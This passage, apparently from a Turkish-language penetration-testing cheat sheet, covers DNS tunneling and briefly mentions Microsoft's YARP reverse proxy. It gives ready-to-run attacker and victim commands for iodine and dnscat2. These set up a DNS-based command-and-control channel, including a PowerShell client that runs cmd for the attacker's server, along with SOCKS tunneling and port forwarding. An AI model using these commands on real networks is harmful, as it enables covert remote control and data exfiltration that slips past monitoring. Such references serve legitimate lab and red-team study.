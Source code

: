 ## YARP

Microsoft tarafından oluşturulmuş bir ters proxy. Bunu burada bulabilirsiniz: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

DNS sorguları kullanarak tun adaptörleri oluşturmak ve verileri bunlar arasında tünellemek için her iki sistemde de root gereklidir.
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
Tünel çok yavaş olacaktır. Bu tünel üzerinden sıkıştırılmış bir SSH bağlantısı oluşturmak için şunu kullanabilirsiniz:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2

[**Buradan indirin**](https://github.com/iagox86/dnscat2)**.**

DNS üzerinden bir C\&C kanalı kurar. Root ayrıcalıklarına ihtiyaç duymaz.
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **PowerShell'da**

PowerShell'da bir dnscat2 istemcisi çalıştırmak için [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) kullanabilirsiniz:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **dnscat ile port yönlendirme**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Proxychains DNS'ini Değiştir
